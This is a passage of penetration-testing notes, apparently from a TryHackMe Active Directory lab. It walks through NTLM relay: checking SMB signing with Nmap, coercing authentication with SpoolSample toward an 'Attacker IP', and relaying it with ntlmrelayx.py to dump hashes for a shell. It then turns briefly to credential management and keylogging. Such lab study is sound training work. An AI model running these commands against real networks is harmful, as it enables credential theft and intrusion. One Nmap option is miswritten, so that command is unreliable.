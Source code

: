 ### SMB Signing
In order to relay the forced authentication attempt, SMB signing should not be enforced. Note here that there is a difference between it being **allowed** and it being **enforced**. Since some legacy systems don't support SMB signing, by default, the configuration of SMB is that signing is allowed but not enforced, so it will only be used if supported. Since we will be hosting a malicious SMB server, we can ensure our server does not support signing, forcing the target not to sign the SMB authentication attempt.
To verify that the servers don't have SMB signing enforced, we can use [[Nmap]] from our attack machine.
```sh
nmap --script:smb2-security-mode -p445 server1.za.domain.com server2.za.domain.com
```

## Exploitation
Note that this attack can be unstable. Abusing the Print Spooler service may cause it to crash, so a callback is not guaranteed. 

Now, to exploit the authentication relay, we can use [SpoolSample](https://github.com/leechristensen/SpoolSample), but there are others like [Spooler](), [PetitPotam]() or [PrintNightmare](). We will use it to force the server2 to authenticate to us and then use [Impacket's](https://github.com/SecureAuthCorp/impacket) [ntlmrelayx.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) to relay the authentication attempt server1.

The first step is to set up the NTLM relay. We can use
```sh
python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"server1 IP" -debug
```
If we specify the hostname of the server instead of the IP, the host could request that we use Kerberos authentication instead of NTLM. 
Now, we can force server2 to authenticate to us. In an SSH terminal on a machine inside the domain we can do the following
```powershell
SpoolSample.exe server2.za.tryhackme.com "Attacker IP"
```
If all goes well, we should receive an authentication attempt and a relay to server1. We can also specify a command to run, inside the `ntlmrelayx.py` with the `-c` flag, but by not specifying a command, we should have performed a hashdump that we can use to get a shell on the host.
 
# AD Users
Although we may already have an account with administrative privileges of some part of the AD environment, we can go even further. It is always best to try and reach the best position for goal execution. Thus we are going to target AD users.

## Users and User Behavior
Users are the weakest link in the security chain, everything from weak passwords, bad habits to granting unnecessary permissions. It would be a great oversight to just ignore this attack surface. 

While it is preferable to build proper enumeration and an attack methodology, we will only focus on:
- **Credential Management** - How users store their credentials. In AD, this is quite important since users may have multiple sets of credentials and remembering all of them is a nuisance.
- **Keylogging** - Often, during exploitation, we need to understand how normal users interact with a system. Along with screengrabs, keylogging can be a useful tool to gain this understanding.
